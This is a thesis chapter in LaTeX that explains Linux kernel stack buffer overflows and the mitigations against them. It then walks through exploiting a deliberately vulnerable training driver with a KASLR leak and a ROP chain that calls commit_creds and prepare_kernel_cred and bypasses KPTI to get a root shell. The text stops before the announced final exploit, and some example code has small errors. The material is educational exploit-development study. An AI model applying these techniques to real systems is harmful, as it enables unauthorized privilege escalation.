\chapter{Stack buffer overflow in the Linux kernel}
    \section{Kernel Linux internals}
    \paragraph{Linux background}
    In 1991, Linus Torvalds, a Finnish student, developed Linux as a kernel for a new operating system. Based on Unix and distributed under an open-source license, Linux quickly attracted the attention of the computing community. \newline
    Its collaborative development model has led to widespread adoption in industries such as servers, embedded devices, and desktops.\newline
    The most popular distributions of Linux have made Linux a popular choice for a wide range of computing uses.\newline
    \paragraph{Architecture}
    \subparagraph{monolithic kernel}
    Linux is a monolithic kernel therefore designed as a single module that manages all the functionality of the operating system.\newline
    This implies that all external drivers must also have some part running in kernel mode.\newline
    \subparagraph{User space and kernel space}
    The memory inside the kernel is divided into various parts, such as user space and kernel space.\newline
    User space is that portion of memory with which the user interfaces, therefore that memory is where all the processes generated by the user operate, in this region the permissions will be limited.\newline
    Instead, the kernel space is a privileged area where the kernel has complete and direct access to all hardware resources.\newline
    Critical operations for the operation of the system are carried out in this region.\newline
    The kernel space is inaccessible directly from users and user applications.\newline
    The only way to communicate between user space and kernel space is through system calls that allow the user to request kernel services.\newline
    \subparagraph{Linux kernel modes}
    In the paragraphs above, some Linux kernel modes have already been mentioned, in fact, to manage permissions and memory sections correctly there are various modes in which the kernel operates.\newline
    Some of these are User mode, Kernel mode, Long mode, Protected mode, and, many others.\newline
    In this thesis, the modes that will interest us most will be:\newline
    \begin{itemize}
        \item[$\bullet$] Kernel mode
        \item[$\bullet$] User mode
    \end{itemize}
    kernel mode: In this mode the kernel has full access to hardware resources and system privileges.\newline
    It is used to execute kernel code and to perform operations that require elevated privileges such as memory and device management.\newline
    User mode: The code that runs in this mode has limited privileges and does not have direct access to memory and hardware resources, but most applications are run in this mode.\newline
    \subparagraph{Talking to the Linux kernel}
    As we have just explained, there are various modes and many types of memory sections, but in the context of exploitation we are interested in analyzing functions that we can achieve so as to trigger bugs and exploit them.\newline
    So saying, it is essential to understand how a userspace program communicates with the kernel.\newline
    There are many modalities, the ones we will analyze today will be:\newline
    \begin{itemize}
        \item[$\bullet$] Syscalls
        \item[$\bullet$] Pseudo-device
        \begin{itemize}
            \item[$\circ$] IOCTLs
        \end{itemize}
        \item[$\bullet$] copy\_to\_user and copy\_from\_user

    \end{itemize}

    Syscall: 
    Syscalls or system calls have the task of requesting services from the kernel such as file management, process creation, hardware management, and many other things.\newline
    Communication between user space and kernel space occurs according to some points:\newline
    \begin{itemize}
    \item Request from User Space: A user program requests send a service request to the kernel via a syscall, the call can be called from an ELF executable for example.\newline
    \item Passing parameters:The syscall specifications are defined in the registers as rax (defines the syscall number), rdi (usually a pointer to the file descriptor) and so for each syscall, all registers have an identifier.\newline
    \item Kernel Space transition and syscall management: At this point, based on the parameters passed, if there are no errors, the kernel executes the system call, and if necessary returns a value.\newline
    \item Return to the User Space: As a final step, the kernel returns control to the user process.\newline
\end{itemize}
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.9\linewidth]{Images/syscall.png}
        \caption{System calls}
        \label{fig:enter-label}
    \end{figure}


    Pseudo-Device: Pseudo-devices are virtual devices that provide a user interface for accessing specific kernel functionality, and are usually exposed under /dev /proc.\newline
    They support operations such as reading and writing and many others.
    An example is:
    \begin{verbatim}
        int main(){
            char buff[10];
            int fd = open("/dev/urandom", 0_RDONLY);
            read(fd, buf, 10);
            return 0;
        }
    \end{verbatim}
    IOCTLs: stands for input/output control and is nothing more than a system call for a specific device that implements an operation that cannot be expressed by a regular semantic file.\newline
    Like a normal system call it requires parameters and will subsequently communicate with the kernel like a normal syscall.\newline
    An IOCTL example follows: 
    \clearpage
    \begin{verbatim}
        #include <sys/ioctl.h> 
        #define IOCTL_READ 0x1 
        typedef struct arg { 
            char *msg; 
            size_t len;
         } arg_t; 
        int main() { 
            int fd = open("/dev/hello", O_RDWR); 
            if (fd == -1) { 
                perror("open()"); 
                exit(1); 
            } 
            int len = 20; 
            char *buf = calloc(len, sizeof(char)); 
            arg_t args = { 
                .msg = buf, 
                .len = len 
            }; 
            ioctl(fd, IOCTL_READ, &args); 
            printf("read: %s\n", args.msg); 
            close(fd); 
            free(buf); 
            return 0; 
         }
    
    \end{verbatim}
    \clearpage
    Safely copying data between user and kernel space: 
    \begin{itemize}
        \item copy\_from\_user: This is a function implemented by the kernel that allows you to copy data from user space to kernel space, usually taking a pointer to the destination buffer, a pointer to the buffer from which to copy and the size of the data to be copied.\newline
        \item copy\_to\_user: This is a function implemented by the kernel that allows you to copy data from the kernel space to the user space, usually taking a pointer to the destination buffer, a pointer to the buffer from which to copy, and the size of the data to be copied.\newline
    \end{itemize}
    Follow an example of copy\_from\_user and copy\_to\_use:\newline
    \begin{verbatim}
        unsigned long _copy_to_user(void __user *to, 
        const void *from, unsigned long n) 
        { 
        ... 
            if (access_ok(to, n)) { 
                instrument_copy_to_user(to, from, n); 
                n = raw_copy_to_user(to, from, n); 
            } 
        ... 
        } 
        unsigned long _copy_from_user(void *to, 
        const void __user *from, unsigned long n) 
        { 
            ... 
            if (... && likely(access_ok(from, n))) { 
                instrument_copy_from_user(to, from, n); 
                res = raw_copy_from_user(to, from, n); 
            } 
            ... 
        } 
    \end{verbatim}
    \section{how it works a kernel stack buffer overflow in the Linux kernel}
    Buffer overflow on the Linux kernel follows the logic of normal stack buffer overflow in user memory.
    A buffer overflow on the kernel occurs when we can write more input than the buffer that the program makes available can contain.\newline    
    \begin{verbatim}
    int unsafe_function(void) {
      char buffer[16];
      int ret;
      struct file *file = filp_open("/path/to/file", O_RDONLY, 0);
      if (IS_ERR(file)) {
            printk(KERN_ERR "Error   opening file\n");
            return PTR_ERR(file);
      }
      ret = copy_from_user_n(buffer, file->f_dentry->d_inode->i_private, len);
          if (ret < 0) {
            printk(KERN_ERR "Failed copy\n");
            filp_close(file);
        return ret;
      } 
      filp_close(file);
    
      return 0;
}    
    \end{verbatim}
    The code above may be vulnerable, in fact in the call to copy\_from\_user the size of the second argument buffer is not checked, if by chance this buffer exceeds sixteen characters a buffer overflow will occur on the kernel.\newline
    The technique of exploiting a buffer overflow within the kernel is similar to that seen in the second chapter except that we are in a different structure and we have new mitigations that will be explained later.\newline
    \clearpage
    \section{Mitigations}
    The Linux kernel is vital for all Linux-based systems. However, due to its extensive codebase, numerous bugs are continually being identified by researchers. To address this, the Linux kernel incorporates multiple mitigations, making exploitation techniques significantly challenging.\newline
    In this chapter we will examine some of the main mitigations present in the Linux kernel, including:
    \begin{itemize}
        \item[$\bullet$] SMEP (Supervisor Mode Execution Prevention)
        \item[$\bullet$] SMAP (Supervisor Mode Access Prevention) 
        \item[$\bullet$] KASLR (Kernel Address Space Layout Randomization)   
        \item[$\bullet$] KPTI (Kernel Page Table Isolation).\newline 
    \end{itemize}
    We'll see how these mitigations work together to fight against attackers.\newline
    Additionally, critical issues and how these mitigations can be bypassed will be discussed.\newline
    \subsection{SMEP}

    \paragraph{User space and Kernel space}

   SMEP mitigation in the Linux kernel is a key response to thwarting vulnerabilities and cyberattacks that seek to execute user code within the kernel's privileged space. Implemented as a preventative measure, SMEP helps strengthen the security of the Linux operating system by restricting the execution of user code in the context of the kernel, but before talking about this mitigation we need to specify some Linux kernel internals.\newline
    SMEP's main job is to make user space memory pages non-executable while the process is in kernel mode. Inside the Linux kernel smep can be activated by setting the twentieth bit to 1 of the CR4 control register.\newline
    SMEP making the stack non-executable is very reminiscent of nx mitigation explained in the second chapter.\newline
    To bypass SMEP we will have to write a ROP instead of using a shellcode.\newline 
    To check if the mitigation is active just run the following commands: \newline
        \begin{verbatim}
        command:
            grep -o smep /proc/cpuinfo
        output: 
            smep
    \end{verbatim}
    \subsection{SMAP}
    SMAP (Supervisor Mode Access Prevention) is one of the main mitigation of the Linux kernel, we will also interface with this mitigation after in the exploiting phase.\newline
    The task of this mitigation is to marks all user space pages as inaccessible when the process is in kernel mode, and prevents kenel space from reading or writing user space memory.\newline
    SMAP In the linux kernel is enabled by setting the twenty-first bit of Control Register CR4.\newline
    To check if the mitigation is active just run the following commands: \newline
      \begin{verbatim}
        command:
            grep -o smap /proc/cpuinfo
        output: 
            smap
    \end{verbatim}
    \subsection{KASLR}

    As we saw previously in the Stack Buffer Overflow chapter, stack randomization is carried out by ASLR, even in the Linux kernel there is an address randomization that prevents sensitive data from being called directly, this is called KASLR. \newline
    KASLR as ASLR for the stack, randomize the addresses  of the code and data sections of the Linux kernel and device drivers.\newline
    Unlike aslr which randomizes memory sections every time a program is started in userspace, the Linux kernel cannot shut down after the power-on phase, so KASLR will randomize addresses once after the boot phase.\newline
    Consequently, if we manage to leak an address after booting the kernel, the randomization will always be the same.\newline
    Since the beginning of 2020, a new version of kaslr has been released and it is called FGKASLR, which stand for Functions Granular Kernel Address Space Layout Randomization.\newline 
    This is a technology that randomizes addresses for each function in the Linux kernel.\newline 
    Although the address of a function in the Linux kernel can be leaked, it is not possible to determine the base address, the only way to leak the base is to extrapolate a pointer to the data section, in fact this is not randomized and allows you to find the base address.\newline
    an example of the randomization follows, in all cases I executed the command cat proc/kallsyms | grep commit\_creds we will discover later in the thesis that this address will be very useful to us:\newline
    \begin{verbatim}
    KASLR disabled 
        0xffffffff814c6410
    first case KASLR enable  
        0xffffffffaf7e4640
    second case KASLR enable
        0xffffffff84349500
    \end{verbatim}
    As we can see from the example above, kaslr only randomizes the last 8 nibbles and therefore the last 4 bytes, however KASLR will be impossible to brute because unlike ASLR if the kernel panics during the brute force we will lose all the brute work we have done up until now to kernel panic.\newline
    To check if the mitigation is active just run the following commands: \newline
    \begin{verbatim}
    command:
        sysctl kernel.randomize_va_space                  
    output:
        kernel.randomize_va_space = 2

    \end{verbatim}
    \clearpage
    \subsection{KPTI}
    KPTI (kernel page table isolation) or the old name KAISER (short for Kernel Address Isolation to have Side-channels Efficiently Removed) is a mitigation that was introduced in 2018 after a very famous hardware attack called meltdown.\newline
    The meltdown attack allowed you to read the kernel memory with user privileges allowing you to simply bypass KASLR, which is why the KPTI mitigation was born.\newline
    As you know, a page table is used when converting a virtual address to a physical address, and this security mechanism separates this page table between user mode and kernel mode.\newline
    The implementation of kpti led to a notable drop in performance and worse memory management.\newline
    Below is a photo that explains memory management with kpti active: \newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/kpti.png}
        \caption{kernel page table isolation}
        \label{fig:enter-label}
    \end{figure}
    \clearpage
    \section{How to exploit a stack buffer overflow in the Linux kernel}
    \subsection{Introduction}
    In this section we will analyze a vulnerable kernel module written by ptrYudai\cite{PWNYABLE}.\newline
    By running the uname -r command we will notice that we are facing the following kernel version:\newline
    5.10.7 a fairly old version.\newline
    However, exploitation and mitigation bypass techniques also work in more recent kernels.\newline
    By downloading the challenge we will notice that we will have 2 main folders:\newline
    \begin{itemize}
        \item qemu 
        \item src 
    \end{itemize}
    The directory src contains the source code of the driver kernel and the file .ko .\newline
    The directory qemu contains the bzImage that is a compressed image of the kernel, and the rootfs.cpio which is a compressed archive that contains the root filesystem of the operating system.\newline
    once decompressed we will find the rootfs therefore trivially all the directories /bin /sbin /etc and all the rest that I have not named. \newline
    inside the qemu folder we also find the run.sh file which contains the following code:\newline
    \clearpage
    \begin{verbatim}
        #!/bin/sh
        qemu-system-x86_64 \
            -m 64M \
            -nographic \
            -kernel bzImage \
            -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=1
            kaslr +smep +smap" \
            -no-reboot \
            -cpu qemu64 \
            -smp 1 \
            -monitor /dev/null \
            -initrd rootfs_updated.cpio \
            -net nic,model=virtio \
            -net user \
            -gdb tcp::12345 \
    \end{verbatim}
    The kernel is set up via qemu, a system that allows you to emulate an environment you want to launch, qemu is used for various reasons, such as:\newline
    Be safer and not launch a vulnerable kernel on your computer, qemu allows you to manage memory and finally we can debug the kernel with gdb even if in a limited way because it is emulated.\newline
    The code above specify the image kernel we want to run with the field -kernel the mitigations we want to apply to the system in the field -appen, we can see that there are all mitigations activated, and some other details.\newline

    \subsection{Reverse engineering}
    As with real word applications, the kernel source code is present, this facilitates the reverse engineering part.\newline
    In fact, we won't have to waste time understanding structures that decompilers don't interpret.\newline
    Four trivial functions write, read, open, close are implemented in this kernel module.\newline
    I will focus on explaining only the most important bug that resides in the write, the code of this function follows:\newline
    \clearpage
    \begin{verbatim}
        static ssize_t module_write(struct file *file,
        const char __user *buf, size_t count, loff_t *f_pos)
            {
              char kbuf[BUFFER_SIZE] = { 0 };
            
              printk(KERN_INFO "module_write called\n");
            
              if (_copy_from_user(kbuf, buf, count)) {
                printk(KERN_INFO "copy_from_user failed\n");
                return -EINVAL;
              }
              memcpy(g_buf, kbuf, BUFFER_SIZE);
            
              return count;
            }
    \end{verbatim}
    The bug inside this code is very simple but unfortunately the code above is missing a detail to understand the bug.\newline
    In fact, in the copy\_from\_user call the count variable will be decided by the user and kbuf has a maximum size of 0x400, so what could happen if we put 0x450 user input?\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/kernel_panic.png}
        \caption{kernel panic}
        \label{fig:enter-label}
    \end{figure}

    
    We managed to overwrite the return address with the value \texttt{0x4141414141414141} causing a kernel panic, and having return address control.\newline
    \subsection{Attack plan and Exploit analysis}
    As seen previously we have RIP control, in this section we will see how to do privilege escalation and bypass active mitigations.\newline
    The goal is to call the following function:\newline
    \begin{verbatim}
        commit_creds(prepare_kernel_cred(NULL));
    \end{verbatim}
prepare\_kernel\_cred(NULL) creates a new set of credentials with kernel privileges, commit\_creds updates the current process credentials to those created by prepare\_kernel\_cred.\newline
    Once the chain that will allow us to do LPE is finished, we will have the entire stack destroyed because the ROP modifies registers on which the kernel performs integrity checks, so before returning to user space and running a shell as if nothing had happened, we will have to restore these logs.\newline
    There is no point in gaining root privileges if the program crashes or the process terminates.\newline
   Using the following shellcode we will slave the state of the registers before the ROP.\newline
    \begin{verbatim}
    static void save_state() {
      asm(
          "movq %%cs, %0\n"
          "movq %%ss, %1\n"
          "movq %%rsp, %2\n"
          "pushfq\n"
          "popq %3\n"
          : "=r"(user_cs), "=r"(user_ss), "=r"(user_rsp), "=r"(user_rflags)
          :
          : "memory");
    }
    
    \end{verbatim}
    The shellcode we see above allows us to save the registers of the stack segment code segment, RSP can have any value inside the stack and RIP we can set it so that it points to a function that launches a shell.\newline
    At this point just write a function that calls commit creds and prapare\_kernel\_creds and we have a root shell?\newline
    Absolutely not, unfortunately SMEP comes into play, in fact when the RIP is overwritten and tries to point and execute a function that is kernel space but is executable as user mode SMEP will block the execution with the following error:
    \begin{verbatim}
        unable to execute userspace code (SMEP?)
    \end{verbatim}
    So at this point we are forced to ROP, except that kaslr is activated and consequently we cannot call the addresses because they are randomized.\newline
    The only way to bypass kaslr is to find a leak.\newline
    At this point the second bug arises: read is vulnerable in the same way as write, in fact you can do read out of bounds, read is vulnerable in the following line of code:\newline
    \begin{verbatim}
    if (_copy_to_user(buf, kbuf, count)) {
        printk(KERN_INFO "copy_to_user failed\n");
        return -EINVAL;
  }
    \end{verbatim}
   As before, the size of kbuf is defined at 0x400 so if more characters are read, stack data will be leaked.\newline 
   Follow the code to leak kaslr:\newline
   \begin{verbatim}
      read(fd, buf, 0x410);
      unsigned long addr_vfs_read = *(unsigned long*)&buf[0x408];
      unsigned long kbase = addr_vfs_read - (0xffffffff8113d33c-0xffffffff81000000);
      printf("[+] kbase = 0x%016lx\n", kbase);
   \end{verbatim}
   To find the libc we will perform this operation : leak - (function\_without\_kaslr - base\_without\_kaslr).\newline
   At this point we have everything we need to do the privileging escalation steps:\newline
    \begin{itemize}
        \item[$\bullet$] Save register state.
        \item[$\bullet$] Leak kaslr  
        \item[$\bullet$] write the ROP   
        \begin{itemize}
            \item[$\circ$] call kernel creds
            \item[$\circ$] call commit creds
            \item[$\circ$] bypass kpti
            \item[$\circ$] fix the registers cs, rsp, ss, rflags
            \item[$\circ$] back to user space 
            \item[$\circ$] pop a shell 
        \end{itemize}
    \end{itemize}
    The only step in this ROP that we have not analyzed is bypassing kpti.
    As explained previously, this mitigation was implemented mainly for hardware bugs but also at a software level it adds a step to our ROP chain, in fact we will call the   swapgs\_restore\_regs\_and\_return\_usermode function which allows us to set RIP to the win function which will call execve("/bin/sh") and set the registers to reset the stack.\newline
    Follow the instructions that  
    swapgs\_restore\_regs\_and\_return\_usermode: \newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/swapgs_restore_regs_and_return_usermode.png}
        \caption{function assembly instructions}
        \label{fig:enter-label}
    \end{figure}
    This is what looks like the ROP chain:
    \begin{verbatim}
      memset(buf, 'A', 0x408);
      unsigned long *chain = (unsigned long*)&buf[0x408];
      *chain++ = rop_pop_rdi;
      *chain++ = 0;
      *chain++ = prepare_kernel_cred;
      *chain++ = rop_pop_rcx;
      *chain++ = 0;
      *chain++ = rop_mov_rdi_rax_rep_movsq;
      *chain++ = commit_creds;
      *chain++ = rop_bypass_kpti;
      *chain++ = 0xdeadbeef; // [rdi]
      *chain++ = 0xdeadbeef;
      *chain++ = (unsigned long)&win; // [rdi+0x10]
      *chain++ = user_cs;             // [rdi+0x18]
      *chain++ = user_rflags;         // [rdi+0x20]
      *chain++ = user_rsp;            // [rdi+0x28]
      *chain++ = user_ss;             // [rdi+0x30]
      puts("[+] Executing ROP ...");

  write(fd, buf, (void*)chain - (void*)buf);
    \end{verbatim}
    
    The last thing left to do is run the full exploit, and see if we get a rooted shell.\newline

    
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.5\linewidth]{Images/LPE_kernel_exploit.png}
        \caption{privilege escalation from unprivilege state}
        \label{fig:enter-label}
    \end{figure}
    We managed to correctly execute an attack that allowed us to do privilege escalation from a non-privileged user, profit!.\newline
    follow the final exploit: \newline
    
    
    
    
    